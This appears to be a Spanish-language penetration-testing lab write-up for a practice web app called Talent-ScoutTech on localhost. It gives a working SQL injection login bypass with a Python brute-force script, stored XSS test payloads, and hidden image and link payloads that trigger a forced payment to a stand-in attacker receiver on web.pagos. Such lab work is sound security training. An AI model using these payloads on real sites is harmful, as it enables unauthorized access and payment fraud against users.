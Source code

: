 # Pentesting de la Web Web_Talent-ScoutTech

# SQLi

En la pagina de login `list_players.php` cuando ponemos `"` en el usuario, y en la contrasela ponemos cualquier cosa, nos salta un error:

![imagene1.png](/img/e1a1715308d347f986417fec99980204(1).png)

Esta es la consulta que ejecuta:
`"SELECT userId, password FROM users WHERE username = """`


Usamos el diccionario personalizado que nos proporcionaron:
`["password", "123456", "12345678", "1234", "qwerty", "dragon"]`


Creamos un script en python que nos proporcione un poco de fuerza bruta ayudandonos de la sentencia `"OR password="contraseña"-- -` en el usuario y en contraseña la misma contraseña que probamos arriba en usuario.

Script:

```py
import requests

# URL del formulario de inicio de sesión
url = 'http://localhost:8080/list_players.php'

# Lista de contraseñas comunes para probar
passwords = ['password', '123456', '12345678', '1234', 'qwerty', 'dragon']

# Lista de usuarios (no se usa directamente en este script optimizado)
usernames = ["pepito", "luis", "marcos", "lucas", "eduardo", "carlos", "ana", "lorena", "ignacio", "maria"]

# Iteramos sobre cada contraseña
for password in passwords:
    # Creamos el payload con la inyección SQL
    payload = {
        'username': f'" OR password="{password}"-- -',  # Inyección SQL en el campo de usuario
        'password': password  # Contraseña actual en el ciclo
    }
    
    # Enviamos la solicitud POST al servidor
    response = requests.post(url, data=payload)
    
    # Verificamos si el inicio de sesión fue exitoso
    if 'Players list' in response.text:  # Ajustar según la respuesta real del servidor
        print(f'Login successful: Password: {password}')
        break  # Salimos del bucle si encontramos una contraseña válida
```


Ejecutamos el script:

![imagen2.png](/img/596842eb5a55467595e097021951d0c5.png)

De esta manera nos podemos loguear en la pagina web sin credenciales.

---
---
---

# XSS

Las pagina `show_comments.php` es vulnerable a XSS.

Se a inyectado un codigo de prueba: `<script>alert('XSS detectado');</script>`

![41ea2774a6f97f5ef5b1b41b44b853d9.png](img/1b6f26a48af54c9391817a9d553ef49a.png)

Buscando mas paginas con XSS encontramos las siguientes:

- `insert_player.php`
- `buscador.php`

Lo unico que esta ultima tiene un limite de caracteres, pero se pueden modificar en el propio "Inspeccionar elementos" del navegador.
´
![5a1e7b6b3657d9b6940b04fc56872973.png]()

Añadimos codigo XSS en la pagina `insert_player.php` en el campo `Team` y añadimos un boton el cual llevaria a los usuarios a donarnos 100€.

Codigo:

```html
<a href="http://web.pagos/donate.php?amount=100&receiver=attacker" style="text-decoration: none;">
        <button>Profile</button>
</a>
```

![38b7017f2f31b6d7a005f268fb9d9384.png](img/03af9c417a2f49188163237af66cf37f(1).png)

Ahora para hacer que los usuarios que visiten la web nos agan un pago atravez de la web: `http://web.pagos/donate.php?amount=100&receiver=attacker`, podremos el enlace en un comentario con XSS dentro de uno de los perfiles.

XSS:
```html
<img src="http://web.pagos/donate.php?amount=100&receiver=attacker" style="display:none;">
```

![0a13e9f7b736f4e8f20557289873ada7.png](img/1f757a8b39e14bc0b039c9a4b7d07861(2).png)